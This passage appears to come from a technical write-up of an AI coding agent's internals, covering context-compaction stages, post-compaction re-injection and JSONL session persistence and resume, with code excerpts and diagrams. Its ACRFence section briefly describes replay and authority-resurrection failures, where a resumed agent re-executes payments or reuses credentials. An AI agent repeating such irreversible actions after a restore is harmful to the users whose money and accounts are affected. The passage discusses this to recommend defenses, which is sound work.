### Session-memory compaction fallback chain

The `trySessionMemoryCompaction` function has multiple fallback paths:

1. **Feature flags not enabled**: Returns `null` immediately.
2. **No session memory file**: Returns `null` after logging `tengu_sm_compact_no_session_memory`.
3. **Session memory matches template (empty)**: Returns `null` after logging `tengu_sm_compact_empty_template`. This handles the case where the session memory file exists but the extraction agent failed to write any content.
4. **`lastSummarizedMessageId` not found in current messages**: Returns `null` after logging `tengu_sm_compact_summarized_id_not_found`. This can happen if messages were modified between extraction and compaction.
5. **Post-compact tokens exceed threshold**: Returns `null` after logging `tengu_sm_compact_threshold_exceeded`. This prevents session-memory compaction from producing a result that would immediately trigger another compaction.
6. **Any error**: Catches the exception, logs `tengu_sm_compact_error`, and returns `null`.

In all fallback cases, the caller (autocompact) proceeds to the legacy model-summarization path. This design ensures that session-memory compaction is an optimization, not a requirement: the system degrades gracefully when session memory is unavailable.

### Image stripping before compaction

Images in user messages are stripped before sending to the compaction summarizer to prevent the compact API call itself from hitting the prompt-too-long limit. This is especially important in CCD sessions where users frequently attach images:

```typescript
// src/services/compact/compact.ts:L145-L200
export function stripImagesFromMessages(messages: Message[]): Message[] {
  return messages.map(message => {
    if (message.type !== 'user') return message
    // ... replaces image blocks with [image] text markers
    // ... also strips images nested inside tool_result content arrays
  })
}
```

Images are replaced with `[image]` text markers so the summary still notes that an image was shared. The function also strips images nested inside tool_result content arrays, which can occur when tools return image data.

### Re-injected attachments

After compaction, several types of attachments are re-injected to restore context lost during summarization:

1. **File attachments**: The five most recently read files are re-read and attached, subject to a 50,000-token budget and a 5,000-token per-file cap. Files already present in preserved messages are skipped to avoid duplicating content the model can already see.

2. **Plan attachment**: If a plan file exists, its content is attached to ensure the model retains awareness of the current plan.

3. **Invoked skills**: Skills used during the session are re-injected with a 25,000-token total budget and a 5,000-token per-skill cap. Each skill is truncated to its head (where setup/usage instructions typically live) rather than dropped entirely.

4. **Tool-delta attachments**: Deferred tools, agent listings, and MCP instructions are re-announced so the model has tool and instruction context on the first post-compact turn.

5. **Plan mode attachment**: If the user is in plan mode, the plan-mode instructions are re-injected so the model continues operating in plan mode after compaction.

6. **Async agent attachments**: Running or completed-but-unretrieved subagents are re-announced so the model does not spawn a duplicate.

## Where cc diverges from the published pattern

### Five stages, not four

The HER (Chapter 28, Pattern 5) describes "Four layers: HISTORY_SNIP, Microcompact, CONTEXT_COLLAPSE, Autocompact." The implementation actually has five stages, with session-memory compaction as a distinct stage between context collapse and the legacy model-summarization autocompact. Session-memory compaction shares autocompact's trigger (token threshold) but uses a fundamentally different mechanism (pre-extracted notes vs. on-demand model summarization). It also preserves recent messages verbatim rather than replacing the entire conversation with a summary, making it a qualitatively different operation.

### Observation masking via API context management

The HER ranks observation masking as the most cost-efficient technique (52% reduction from JetBrains Research). cc implements this not through client-side content replacement alone but through the API's native context management system. The `getAPIContextManagement` function in `src/services/compact/apiMicrocompact.ts` configures server-side context-editing strategies:

```typescript
// src/services/compact/apiMicrocompact.ts:L35-L56
export type ContextEditStrategy =
  | {
      type: 'clear_tool_uses_20250919'
      trigger?: {
        type: 'input_tokens'
        value: number
      }
      keep?: {
        type: 'tool_uses'
        value: number
      }
      clear_tool_inputs?: boolean | string[]
      exclude_tools?: string[]
      clear_at_least?: {
        type: 'input_tokens'
        value: number
      }
    }
  | {
      type: 'clear_thinking_20251015'
      keep: { type: 'thinking_turns'; value: number } | 'all'
    }
```

The `clear_tool_uses_20250919` strategy triggers when input tokens exceed a threshold (default 180,000) and clears at least enough tool results to bring tokens down to a target (default 40,000). The `clear_thinking_20251015` strategy preserves thinking blocks in previous assistant turns (unless redact-thinking is active or the session has been idle for over an hour). This server-side approach is more efficient than client-side content replacement because it avoids the round-trip of modifying and re-sending messages.

### The analysis-scratchpad pattern

The compact prompt uses a two-phase output structure (`<analysis>` followed by `<summary>`) that is stripped before the summary enters the post-compact conversation. This pattern, where the model is given a scratchpad for drafting that is discarded from the final output, appears in several places in cc's architecture but is not documented in the HER. The scratchpad improves summary quality by giving the model space to organize its thoughts before producing the structured output, without consuming post-compact context with the drafting process.

### Streaming-retry for compaction

The compact streaming path includes a retry mechanism for failed streaming attempts:

```typescript
// src/services/compact/compact.ts:L131
const MAX_COMPACT_STREAMING_RETRIES = 2
```

This is not mentioned in the HER's description of progressive compaction. The retry is controlled by the `tengu_compact_streaming_retry` GrowthBook flag and only fires when the streaming attempt produces no response. It uses exponential backoff via `getRetryDelay` and is distinct from the prompt-too-long retry loop (which handles a different failure mode).

## Developer takeaways for building a long-running agent

1. **Compaction is a hierarchy, not a single event.** Each stage has different trigger conditions, latency profiles, and information-loss characteristics. History snip is free (deterministic), microcompact is cheap (no model call for the cached path), and autocompact is expensive (requires an API call).

2. **Preserve API invariants when slicing messages.** The API requires strict tool-use/tool-result pairing and consistent message-id grouping. Naive slicing by index will violate these invariants with streaming-style message decomposition. The `adjustIndexToPreserveAPIInvariants` function shows how to handle this.

3. **Use circuit breakers for retry loops.** The `MAX_CONSECUTIVE_AUTOCOMPACT_FAILURES` guard prevents unbounded API waste when context is irrecoverably over the limit. Any system that retries on failure should include a similar bound.

4. **Separate main-thread and subagent state.** Subagents share the process's module-level state. Compaction code that resets caches must check the query source before modifying shared state. This applies to any multi-agent architecture with shared-process agents.

5. **Cache-editing beats content replacement.** The cached microcompact path uses the cache-editing API to remove tool results without invalidating the cached prefix, saving both cache-creation tokens and latency. The tradeoff is careful state management: cached-MC state must be reset when the cache is invalidated by other means.

6. **Session memory enables zero-API-call compaction.** Pre-extracting structured notes lets cc compact without invoking the model, eliminating the compaction API call entirely. The extraction cost is amortized across many turns rather than paid as a lump sum at compaction time.

7. **Post-compact re-injection and PTL escape hatches are essential.** Re-injecting recently read files (50K total budget) prevents redundant I/O after compaction. When even compaction fails, truncating the oldest context via `truncateHeadForPTLRetry` is a lossy but necessary escape hatch.
# Session Persistence and Resume

## Overview

A long-running agent that dies with the process is useless. cc solves this with a JSONL-based session persistence layer that survives crashes, network partitions, and user-initiated restarts. Every conversation turn, tool result, compaction boundary, and metadata mutation is appended to a newline-delimited JSON file. On resume, a chain-reconstruction algorithm walks the parent-linked graph from leaf to root, filtering out dead branches, applying snip removals, and re-linking preserved segments — producing a conversation that the model can continue as if nothing happened.

The persistence system is cc's answer to the checkpoint-restore problem defined in the terminology registry: *the ability to save and resume agent state across sessions, implemented via JSONL session persistence and tombstone entries*. The design reflects a specific set of constraints: append-only files (no in-place mutation), multi-process writers (CLI + VS Code SDK), multi-gigabyte session files, and the need to reconstruct a DAG-shaped conversation from a linear sequence of lines.

This chapter covers the two files that implement this system: `src/utils/sessionStoragePortable.ts` (793 LOC) — a pure-Node dependency-free layer shared with the VS Code extension — and `src/utils/sessionStorage.ts` (5105 LOC) — the full persistence engine with write queuing, remote hydration, dedup, and tombstoning. Together they answer: what goes on disk, how it comes back, and what can go wrong. The chapter integrates two HER cross-references: §6.16 Checkpoint-Restore Side Effects (ACRFence), which identifies replay and authority-resurrection attacks specific to agent checkpoint-restore; and §10.3 Session Protocol, which prescribes an 8-step ORIENT→EXIT discipline for session lifecycle management.

## Data structures and contracts

### The Entry union type

Every line in the JSONL file is a serialized `Entry`. The type union in `src/types/logs.ts:L297-L317` enumerates 19 variants:

```typescript
// src/types/logs.ts:L297-L317
export type Entry =
  | TranscriptMessage
  | SummaryMessage
  | CustomTitleMessage
  | AiTitleMessage
  | LastPromptMessage
  | TaskSummaryMessage
  | TagMessage
  | AgentNameMessage
  | AgentColorMessage
  | AgentSettingMessage
  | PRLinkMessage
  | FileHistorySnapshotMessage
  | AttributionSnapshotMessage
  | QueueOperationMessage
  | SpeculationAcceptMessage
  | ModeEntry
  | WorktreeStateEntry
  | ContentReplacementEntry
  | ContextCollapseCommitEntry
  | ContextCollapseSnapshotEntry
```

Four of these are *transcript messages* — the user/assistant/attachment/system entries that form the conversation chain. The remaining 15 are *metadata entries* — sideband records for session state that must survive resume (titles, tags, worktree state, PR links, file history, attribution snapshots, context-collapse commits). The separation matters for the read path: metadata entries are session-scoped and last-wins; transcript messages are chain-scoped and position-dependent.

### TranscriptMessage and the parent chain

The `TranscriptMessage` type extends `SerializedMessage` with the fields that enable chain reconstruction (`src/types/logs.ts:L221-L231`):

```typescript
// src/types/logs.ts:L221-L231
export type TranscriptMessage = SerializedMessage & {
  parentUuid: UUID | null
  logicalParentUuid?: UUID | null
  isSidechain: boolean
  gitBranch?: string
  agentId?: string
  teamName?: string
  agentName?: string
  agentColor?: string
  promptId?: string
}
```

The `parentUuid` field forms a singly-linked list from leaf to root. Compact boundaries null out `parentUuid` to truncate the chain; `logicalParentUuid` preserves the pre-boundary link for reconstruction. The `isSidechain` flag separates main-thread entries from subagent transcripts, which live in separate `.jsonl` files under `subagents/`. The `gitBranch` field is stamped once per message chain via `getBranch()` in `insertMessageChain` (`src/utils/sessionStorage.ts:L1014-L1019`), enabling the session picker to display which branch a conversation was on. The `promptId` field correlates with OpenTelemetry prompt.id for user prompt messages, linking the transcript to observability traces.

The `isTranscriptMessage()` type guard (`src/utils/sessionStorage.ts:L139-L146`) is the single source of truth for what constitutes a transcript message. It was defined in response to bug #14373 and #23537, where progress messages were incorrectly included in the parent chain, creating chain forks that orphaned real conversation messages on resume. The companion `isChainParticipant()` function (`src/utils/sessionStorage.ts:L154-L156`) excludes progress from the parentUuid assignment on the write path, preventing the same class of bugs from recurring.

### Project directory layout

Sessions are stored under `~/.claude/projects/<sanitized-path>/<session-id>.jsonl`. The path sanitization replaces non-alphanumeric characters with hyphens and truncates long paths with a hash suffix (`src/utils/sessionStoragePortable.ts:L311-L319`). Subagent transcripts live in `<project-dir>/<session-id>/subagents/agent-<agentId>.jsonl` with sibling `.meta.json` files for agent type metadata (`src/utils/sessionStorage.ts:L247-L262`). Remote agent metadata occupies a separate directory tree under `remote-agents/`.

```erDiagram
    PROJECT_DIR ||--o{ SESSION_FILE : contains
    PROJECT_DIR ||--o{ SUBAGENT_DIR : contains
    SUBAGENT_DIR ||--o{ AGENT_TRANSCRIPT : contains
    SUBAGENT_DIR ||--o{ AGENT_METADATA : contains
    PROJECT_DIR ||--o{ REMOTE_AGENT_DIR : contains
    REMOTE_AGENT_DIR ||--o{ REMOTE_AGENT_META : contains

    PROJECT_DIR {
        string path "sanitized cwd"
    }
    SESSION_FILE {
        uuid sessionId "PK"
        string jsonl "append-only entries"
    }
    AGENT_TRANSCRIPT {
        uuid agentId "PK"
        string jsonl "sidechain entries"
    }
    AGENT_METADATA {
        uuid agentId "PK"
        string agentType "fork/sync/remote"
        string worktreePath "optional"
        string description "optional"
    }
    REMOTE_AGENT_META {
        string taskId "PK"
        string remoteSessionId "CCR session"
    }
```

### Agent metadata sidecars

When a subagent is spawned, its type and worktree path are persisted to a `.meta.json` sidecar file via `writeAgentMetadata()` (`src/utils/sessionStorage.ts:L283-L290`). On resume, `readAgentMetadata()` restores the agent type so a forked subagent routes to its correct handler rather than degrading silently to general-purpose. The sidecar pattern avoids JSONL schema changes — the transcript file's format remains stable while metadata evolves independently.

Similarly, remote agent metadata is persisted via `writeRemoteAgentMetadata()` (`src/utils/sessionStorage.ts:L337-L344`) and restored on resume to reconnect to still-running CCR sessions. The `listRemoteAgentMetadata()` function (`src/utils/sessionStorage.ts:L373-L399`) scans the directory for all `.meta.json` files, skipping corrupt entries from crashed fire-and-forget writes.

## Control flow

### The write path: append-only with queued batching

Every mutation — a new message, a title change, a compaction boundary — flows through `Project.appendEntry()` (`src/utils/sessionStorage.ts:L1128-L1265`). The method classifies the entry type and routes it:

1. **Metadata entries** (custom-title, tag, mode, agent-name, etc.) are always appended — they never deduplicate because last-wins semantics are correct for session-scoped state.
2. **Transcript messages** (user/assistant/attachment/system) check the `getSessionMessages()` memoized set for UUID dedup. If the UUID is new, it's enqueued for write and added to the set.
3. **Sidechain entries** bypass dedup — forked subagents inherit parent UUIDs from the main session, and deduping against the main set would drop them, leaving the sidechain transcript incomplete (`src/utils/sessionStorage.ts:L1234-L1261`).

Writes are batched through `enqueueWrite()` with a 100ms flush interval (`src/utils/sessionStorage.ts:L567`). The drain loop concatenates entries into a single string, splits at a 100MB chunk boundary, and appends via `fsAppendFile` with mode 0o600 (`src/utils/sessionStorage.ts:L634-L686`):

```typescript
// src/utils/sessionStorage.ts:L606-L616
private enqueueWrite(filePath: string, entry: Entry): Promise<void> {
  return new Promise<void>(resolve => {
    let queue = this.writeQueues.get(filePath)
    if (!queue) {
      queue = []
      this.writeQueues.set(filePath, queue)
    }
    queue.push({ entry, resolve })
    this.scheduleDrain()
  })
}
```

The session file is created lazily: `sessionFile` starts as `null`, entries are buffered in `pendingEntries`, and `materializeSessionFile()` fires on the first user/assistant message (`src/utils/sessionStorage.ts:L976-L991`). This prevents orphan metadata-only files when the user launches with `--name` but quits before sending a message. The guard in `shouldSkipPersistence()` (`src/utils/sessionStorage.ts:L960-L970`) also suppresses writes in test environments, when `cleanupPeriodDays === 0`, or when `--no-session-persistence` is set.

### Remote persistence: Session Ingress and CCR v2

For cloud-connected sessions, transcript messages are also persisted remotely. Two paths exist:

- **v1 Session Ingress**: entries are POSTed to a remote endpoint via `sessionIngress.appendSessionLog()`. If the POST fails, `gracefulShutdownSync(1)` is called — remote persistence failure is treated as fatal because it means the session is irrecoverable on the server side (`src/utils/sessionStorage.ts:L1333-L1343`). The v1 path is gated on `ENABLE_SESSION_PERSISTENCE` env var and the presence of a `remoteIngressUrl`.
- **CCR v2 Internal Events**: entries are written as internal worker events via a registered `InternalEventWriter`. This path uses a 10ms flush interval (vs. 100ms for local-only) to minimize write latency (`src/utils/sessionStorage.ts:L530`). The v2 writer is registered via `setInternalEventWriter()` and takes priority over v1 when both are configured — the v2 path returns early, skipping the v1 POST entirely.

On resume from a cloud session, `hydrateRemoteSession()` (`src/utils/sessionStorage.ts:L1587-L1622`) fetches all remote logs and replaces the local file wholesale. The function calls `switchSession()` to set the session ID, writes the remote entries as concatenated JSONL lines, and then sets the remote ingress URL — ordering matters because persistence must be enabled *after* the local file is hydrated to avoid overwriting fresh data with stale state. `hydrateFromCCRv2InternalEvents()` (`src/utils/sessionStorage.ts:L1632-L1723`) does the same for CCR v2, additionally fetching and writing subagent events grouped by `agent_id` into their respective agent transcript files. Both hydration paths create the project directory with mode 0o700 before writing.

### The read path: head/tail for metadata, full scan for resume

Session listing uses a *lite* read that only touches the first and last 64KB of each file. The `readLiteMetadata()` function (`src/utils/sessionStorage.ts:L4739-L4789`) extracts metadata via raw string search without full JSON parsing — `extractLastJsonStringField()` finds the last occurrence of a key in the tail buffer, naturally implementing last-wins semantics. The head buffer provides the first prompt (via `extractFirstPromptFromChunk`); the tail provides the most recent title, tag, and mode. This avoids parsing megabytes of transcript content just to display the session picker.

The portable layer's `readHeadAndTail()` (`src/utils/sessionStoragePortable.ts:L215-L242`) opens a single file handle, reads the first 64KB, then seeks to the tail offset for the last 64KB — two reads total, one fd, no memory pressure:

```typescript
// src/utils/sessionStoragePortable.ts:L215-L242
export async function readHeadAndTail(
  filePath: string,
  fileSize: number,
  buf: Buffer,
): Promise<{ head: string; tail: string }> {
  try {
    const fh = await fsOpen(filePath, 'r')
    try {
      const headResult = await fh.read(buf, 0, LITE_READ_BUF_SIZE, 0)
      if (headResult.bytesRead === 0) return { head: '', tail: '' }
      const head = buf.toString('utf8', 0, headResult.bytesRead)
      const tailOffset = Math.max(0, fileSize - LITE_READ_BUF_SIZE)
      let tail = head
      if (tailOffset > 0) {
        const tailResult = await fh.read(buf, 0, LITE_READ_BUF_SIZE, tailOffset)
        tail = buf.toString('utf8', 0, tailResult.bytesRead)
      }
      return { head, tail }
    } finally {
      await fh.close()
    }
  } catch {
    return { head: '', tail: '' }
  }
}
```

Full resume uses `loadTranscriptFile()` (`src/utils/sessionStorage.ts:L3472-L3813`), which orchestrates a multi-stage pipeline:

```mermaid
sequenceDiagram
    participant Caller as loadConversationForResume
    participant Storage as sessionStorage
    participant Portable as sessionStoragePortable
    participant Disk as JSONL File

    Caller->>Storage: loadTranscriptFile(path)
    Storage->>Disk: stat() check size
    alt size > 5MB
        Storage->>Portable: readTranscriptForLoad(path, size)
        Portable->>Disk: Forward chunked read
        Portable-->>Storage: postBoundaryBuf + boundaryStartOffset
        Storage->>Disk: scanPreBoundaryMetadata([0, offset))
    else size <= 5MB
        Storage->>Disk: readFile() full content
    end
    Storage->>Storage: walkChainBeforeParse() [optional]
    Storage->>Storage: parseJSONL() → Entry[]
    Storage->>Storage: Build Maps (messages, titles, tags...)
    Storage->>Storage: applyPreservedSegmentRelinks()
    Storage->>Storage: applySnipRemovals()
    Storage->>Storage: Compute leafUuids
    Storage-->>Caller: {messages, summaries, customTitles, ...}
```

For files exceeding 5MB (the `SKIP_PRECOMPACT_THRESHOLD` in `src/utils/sessionStoragePortable.ts:L480`), `readTranscriptForLoad()` performs a single forward chunked read that strips attribution snapshots at the fd level and truncates on compact boundaries in-stream (`src/utils/sessionStoragePortable.ts:L717-L793`). Peak memory is the *output* size, not the file size — a 151MB session that is 84% stale attr-snaps allocates ~32MB instead of 223MB. The implementation uses a custom `Sink` type with in-place buffer growth and a series of scan functions (`scanChunkLines`, `processStraddle`, `captureSnap`, `captureCarry`, `finalizeOutput`) that process 1MB chunks with O(1) overhead per chunk.

After parsing, two structural fixups run on the in-memory map:

1. **`applyPreservedSegmentRelinks()`** (`src/utils/sessionStorage.ts:L1839-L1956`): When compaction preserves a segment of messages, those entries keep their original `parentUuid` on disk (append-only discipline prevents rewriting). This function splices the preserved chain back into the main chain by patching the head's `parentUuid` to point at the anchor and relinking the anchor's other children to the tail. It also zeroes stale usage tokens in preserved assistant messages to prevent an autocompact spiral on resume.

2. **`applySnipRemovals()`** (`src/utils/sessionStorage.ts:L1982-L2038`): History-snip operations record `removedUuids` in the boundary's `snipMetadata`. This function deletes those entries and relinks survivors across the gap using path compression (`resolve()` walks backward through the deleted region and caches the result for O(1) subsequent lookups).

### Chain reconstruction and dedup

The `buildConversationChain()` function (`src/utils/sessionStorage.ts:L2069-L2094`) walks `parentUuid` from a leaf message to root, detects cycles (logging `tengu_chain_parent_cycle`), and then runs `recoverOrphanedParallelToolResults()` (`src/utils/sessionStorage.ts:L2118-L2206`) to rescue sibling assistant blocks and tool results that the single-parent walk dropped. This is necessary because parallel tool uses create a DAG, not a tree — streaming emits one `AssistantMessage` per `content_block_stop`, so N parallel tool uses produce N messages with distinct UUIDs but the same `message.id`. The walk follows one branch and orphans the rest.

Before parsing, `walkChainBeforeParse()` (`src/utils/sessionStorage.ts:L3306-L3466`) performs a byte-level pre-filter that excises dead fork branches. It builds a stride-3 flat index of transcript messages, walks the parent chain from the last non-sidechain leaf, and produces a stitched buffer containing only chain entries and metadata. Measured impact: a 41MB file with 99% dead branches goes from 56ms parse time to 3.9ms — a 93% reduction. The optimization is gated on buffer size (only runs when `> SKIP_PRECOMPACT_THRESHOLD`) and is skipped when a preserved segment exists (those messages keep pre-compact `parentUuid` that would appear orphaned to the pre-parse walk).

### The resume flow

When `--resume` or `--continue` is invoked, `loadConversationForResume()` in `src/utils/conversationRecovery.ts:L456` orchestrates the full pipeline: load the session log, build the chain, deserialize messages (filtering unresolved tool uses and orphaned thinking blocks via `deserializeMessagesWithInterruptDetection`), then restore all session state via `restoreSessionStateFromLog()` in `src/utils/sessionRestore.ts:L99-L150` — file history snapshots, attribution state, context-collapse commits, and TodoWrite state.

```mermaid
sequenceDiagram
    participant CLI as --resume / --continue
    participant Recovery as conversationRecovery
    participant Storage as sessionStorage
    participant Restore as sessionRestore

    CLI->>Recovery: loadConversationForResume()
    Recovery->>Storage: loadTranscriptFile(path)
    Storage->>Storage: readHeadAndTail / readTranscriptForLoad
    Storage->>Storage: walkChainBeforeParse() [if >5MB]
    Storage->>Storage: parseJSONL() → Entry[]
    Storage->>Storage: buildConversationChain()
    Storage->>Storage: applyPreservedSegmentRelinks()
    Storage->>Storage: applySnipRemovals()
    Storage-->>Recovery: {messages, summaries, titles, tags}
    Recovery->>Recovery: deserializeMessagesWithInterruptDetection()
    Recovery->>Restore: restoreSessionStateFromLog()
    Restore->>Restore: restore fileHistorySnapshots
    Restore->>Restore: restore attributionState
    Restore->>Restore: restore contextCollapseCommits
    Restore->>Restore: restore TodoWrite state
    Recovery->>Storage: adoptResumedSessionFile()
    Storage->>Storage: set sessionFile path
    Storage->>Storage: reAppendSessionMetadata(skipTitleRefresh=true)
    Recovery-->>CLI: session ready for new queries
```

The session file pointer is adopted (not created fresh) via `adoptResumedSessionFile()` (`src/utils/sessionStorage.ts:L1530-L1534`), which sets the in-memory path and re-appends metadata with `skipTitleRefresh = true` — since `restoreSessionMetadata()` populated the cache from the same disk read microseconds ago, refreshing from the tail would be a no-op unless `--name` was used (in which case it would clobber the fresh CLI title with a stale disk value).

```mermaid
stateDiagram-v2
    [*] --> Pending: Session created
    Pending --> Materialized: First user/assistant message
    Materialized --> Active: Entries appended each turn
    Active --> Compacted: Compact boundary written
    Compacted --> Active: New messages appended
    Active --> Tombstoned: Orphaned UUID removed
    Active --> ReAppended: Metadata re-appended on exit
    ReAppended --> Resumed: --resume loads session
    Resumed --> Active: New entries continue
    Compacted --> Resumed: --resume skips pre-boundary
    Resumed --> Compacted: Subsequent compact

    note right of Compacted: pre-boundary bytes skipped on load
    note right of ReAppended: metadata stays in 64KB tail window
```

### Metadata re-append: keeping the tail window valid

The `reAppendSessionMetadata()` method (`src/utils/sessionStorage.ts:L721-L839`) is called in two contexts: after compaction and on session exit. Its purpose is to ensure that metadata entries (custom-title, tag, agent-name, mode, worktree-state, pr-link) remain within the 64KB tail window that `readLiteMetadata` scans. The cleanup handler registered in `getProject()` (`src/utils/sessionStorage.ts:L449-L466`) flushes queued writes first, then re-appends metadata — ensuring the entries always appear in the last 64KB tail window.

Before re-appending, the method performs a sync tail read via `readFileTailSync()` (`src/utils/sessionStorage.ts:L2592-L2614`) to absorb any fresher values written by an external process (e.g., the VS Code SDK's `renameSession` or `tagSession`). The tail read uses `openSync` / `fstatSync` / `readSync` / `closeSync` — a synchronous fast path that avoids the overhead of the async fs API during shutdown. This external-writer safety ensures that a CLI re-append doesn't clobber an SDK-written title — the tail is authoritative for SDK-mutable fields; the in-memory cache is authoritative for CLI-only fields (last-prompt, agent-*, mode, pr-link). The distinction between SDK-mutable and CLI-only fields is enforced by which fields the tail scan refreshes: only `customTitle` and `tag` are refreshed from the tail (`src/utils/sessionStorage.ts:L741-L762`); all other fields use the cache as-is.

Re-append is unconditional even when the value is already in the tail: during compaction, a title 40KB from EOF is inside the current tail window but will fall out once the post-compaction session grows. Skipping the re-append would defeat the purpose (`src/utils/sessionStorage.ts:L714-L719`). The metadata entries are written in a specific order: `last-prompt` first, then `custom-title`, `tag`, `agent-name`, `agent-color`, `agent-setting`, `mode`, `worktree-state`, and `pr-link` last. This ordering places the most critical fields (custom-title, tag) closer to EOF where they are most likely to be found by the tail scan.

## Edge cases and failure modes

### Tombstone removal and the 50MB guard

When an orphaned message needs to be removed (e.g., a failed streaming attempt), `removeMessageByUuid()` reads the tail, locates the line by UUID needle search (`"uuid":"<targetUuid>"`), and splices it out with `ftruncate` + positional write (`src/utils/sessionStorage.ts:L871-L951`). The needle is the full `"uuid":"<targetUuid>"` pattern, not just the bare UUID — this avoids false matches where the same UUID value appears in a `parentUuid` field of a child entry. The byte-level search is safe because UUIDs are pure ASCII, so no UTF-8 multi-byte sequences need special handling.

For messages not in the last 64KB, a slow path reads the entire file and rewrites it — but this is gated at 50MB (`src/utils/sessionStorage.ts:L121-L123`) to prevent OOM on multi-gigabyte session files (inc-3930). Files larger than 50MB silently skip the tombstone, accepting a small amount of orphaned data rather than crashing. The `removeMessageByUuid` operation is wrapped in `trackWrite()` to coordinate with the flush mechanism — callers can `await flush()` to ensure the removal is durable before proceeding.

```typescript
// src/utils/sessionStorage.ts:L841-L861
async flush(): Promise<void> {
  // Cancel pending timer
  if (this.flushTimer) {
    clearTimeout(this.flushTimer)
    this.flushTimer = null
  }
  // Wait for any in-flight drain to finish
  if (this.activeDrain) {
    await this.activeDrain
  }
  // Drain anything remaining in the queues
  await this.drainWriteQueue()

  // Wait for non-queue tracked operations (e.g. removeMessageByUuid)
  if (this.pendingWriteCount === 0) {
    return
  }
  return new Promise<void>(resolve => {
    this.flushResolvers.push(resolve)
  })
}
```

### Precompact skip and metadata recovery

When `readTranscriptForLoad` truncates at a compact boundary, any metadata entries (agent-setting, mode, pr-link) written before that boundary are lost from the post-boundary buffer. The `scanPreBoundaryMetadata()` function (`src/utils/sessionStorage.ts:L3157-L3224`) performs a cheap byte-level forward scan of `[0, boundaryOffset)` collecting only metadata lines — using raw Buffer matching against `METADATA_MARKER_BUFS` without full JSON parsing. The marker list in `src/utils/sessionStorage.ts:L3113-L3123` includes nine metadata types as raw JSON string patterns (e.g., `"type":"summary"`, `"type":"custom-title"`, `"type":"mode"`). The fast path skips chunks that contain zero markers (the common case — metadata entries are <50 per session). This recovers session-scoped state that would otherwise disappear on resume.

The scan uses `resolveMetadataBuf()` (`src/utils/sessionStorage.ts:L3131-L3147`) to handle lines that straddle chunk boundaries. For carry buffers shorter than the `METADATA_PREFIX_BOUND` (25 bytes), it conservatively concatenates with the next chunk — the carry might be the start of a metadata line. For longer carries, it checks whether the carry starts with `{` and matches a known metadata prefix; if not, it skips to the next newline in the next chunk, avoiding the concatenation entirely. A 64KB guard prevents quadratic carry growth from pathological huge lines — real metadata entries are under 1KB, so anything beyond that is guaranteed to be message content.

### Checkpoint-restore side effects (ACRFence)

HER §6.16 identifies a critical failure mode specific to agent checkpoint-restore: the LLM may re-synthesize subtly different requests after restore, causing duplicate payments, unauthorized credential reuse, or other irreversible side effects. The ACRFence paper (arXiv:2603.20625) names two attack classes — *Action Replay* and *Authority Resurrection*.

cc's current defense is partial. The JSONL format records every tool call, but there is no built-in idempotency key system for external tool calls, no replay-or-fork semantics for irreversible operations, and no explicit marking of which tool effects are externally visible. A resumed session that was interrupted mid-payment could re-execute the payment tool. Developers building long-running agents on top of cc should add idempotency keys to any tool that mutates external state — see HER §12.6 for the full defense-in-depth recommendation.

### Session Protocol alignment

HER §10.3 prescribes an 8-step session protocol (ORIENT → SETUP → VERIFY → SELECT → IMPLEMENT → TEST → UPDATE → EXIT). cc's resume flow implicitly covers ORIENT (loading workspace state from the transcript) and EXIT (graceful shutdown with `reAppendSessionMetadata` + `flush`), but does not enforce SETUP or VERIFY. A resumed agent jumps straight to IMPLEMENT without re-running baseline tests — a potential source of silent divergence if the environment changed between sessions. The `checkResumeConsistency()` function (`src/utils/sessionStorage.ts:L2224-L2243`) emits a `tengu_resume_consistency_delta` metric comparing the reconstructed chain length against recorded checkpoints, but this is observational, not corrective.

### Worktree session state

Worktree state is persisted as a `worktree-state` entry with a tri-state field: `undefined` = never entered, `null` = exited, `object` = currently inside (`src/utils/sessionStorage.ts:L544-L545`). On resume, `null` is distinguished from `undefined` — the former tells the harness not to cd back into a worktree the user explicitly exited. The `PersistedWorktreeSession` type strips ephemeral fields like `creationDurationMs` and `usedSparsePaths` before serialization (`src/utils/sessionStorage.ts:L2893-L2907`) because TypeScript structural typing allows callers to pass full `WorktreeSession` objects, but we don't want those fields in the transcript.

### Ephemeral progress and the chain bridge

Progress entries (`bash_progress`, `powershell_progress`, `mcp_progress`) were removed from the `Entry` type union in PR #24099. But old transcripts still contain them in the `parentUuid` chain. `loadTranscriptFile` builds a `progressBridge` map that chains through consecutive progress entries and rewrites any subsequent message's `parentUuid` to skip past them (`src/utils/sessionStorage.ts:L3623-L3646`). The bridge performs path compression: if a progress entry's parent is itself a progress entry already in the bridge, the lookup resolves to the nearest non-progress ancestor in one step — O(1) chain resolution for any depth of consecutive progress entries. Without this, `buildConversationChain` would terminate at the first progress entry and orphan everything after it. The `isLegacyProgressEntry()` guard (`src/utils/sessionStorage.ts:L169-L178`) runs before the Entry-typed else-if chain because progress is no longer in the union — checking after TypeScript narrows `entry` would intersect with `never`.

The `isEphemeralToolProgress()` function (`src/utils/sessionStorage.ts:L186-L196`) defines the set of high-frequency tool progress types that are UI-only — not sent to the API and not rendered after the tool completes. The set includes `bash_progress`, `powershell_progress`, and `mcp_progress`, with `sleep_progress` conditionally added when the `PROACTIVE` or `KAIROS` feature flags are active. This distinction matters for the REPL's replace-in-place rendering: ephemeral progress updates replace the previous line instead of appending, keeping the terminal output compact.

### AI titles and custom-title precedence

AI-generated titles and user-renamed titles use distinct entry types (`ai-title` vs `custom-title`) and distinct field names (`aiTitle` vs `customTitle`). This separation is load-bearing (`src/utils/sessionStorage.ts:L2643-L2665`): `loadTranscriptFile` only populates `customTitles` from `custom-title` entries, so `restoreSessionMetadata` never caches an AI title and `reAppendSessionMetadata` never re-appends one — preventing the clobber-on-resume bug where a stale AI title overwrites a mid-session user rename. The `readLiteMetadata` function (`src/utils/sessionStorage.ts:L4771-L4775`) naturally disambiguates by checking `customTitle` first, then falling back to `aiTitle`.

## Where cc diverges from the published pattern

### Append-only discipline versus mutable state

The standard database approach to session persistence would use UPDATE-in-place. cc strictly uses append-only JSONL — no entry is ever modified after write. Deletions are represented by omission (chain walks skip orphaned branches) or explicit removal (`removeMessageByUuid` which truncates and re-appends the tail). This design simplifies crash recovery (a partially-written line is just ignored on parse by `parseJSONL`) but creates complexity for chain reconstruction: `applyPreservedSegmentRelinks` and `applySnipRemovals` are pure in-memory fixups that compensate for the gap between what's on disk and what the conversation chain should look like.

### Split portable/main architecture

